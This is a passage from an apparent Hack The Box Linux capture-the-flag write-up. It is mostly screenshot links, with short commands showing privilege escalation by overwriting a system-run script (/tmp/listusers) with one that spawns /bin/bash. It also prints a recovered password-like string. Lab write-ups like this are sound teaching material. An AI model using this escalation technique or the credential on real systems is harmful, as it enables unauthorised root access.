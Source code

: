 	- run as system in this file
	
![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/51.jpg)
	
	```sh
	/tmp/listusers
	```
	- edit that /tmp/listusers file

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/52.jpg)
	
``` sh
#!/bin/bash
/bin/bash
```
	
---

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/53.jpg)
	
![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/54.jpg)

- execute /tmp/listusers
- we get a bash sell

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/55.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/56.jpg)
	
![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/57.jpg)
	
![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/58.jpg)
	
![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/59.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/60.jpg)
	
	
---
	
```sh	
Kab6h+m+bbp2J:HG
```
	
![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/61.jpg)
	
![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/62.jpg)
	
- can we execute this who cmmand let's look
	
![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/12/63.jpg)

```sh
which who
```
	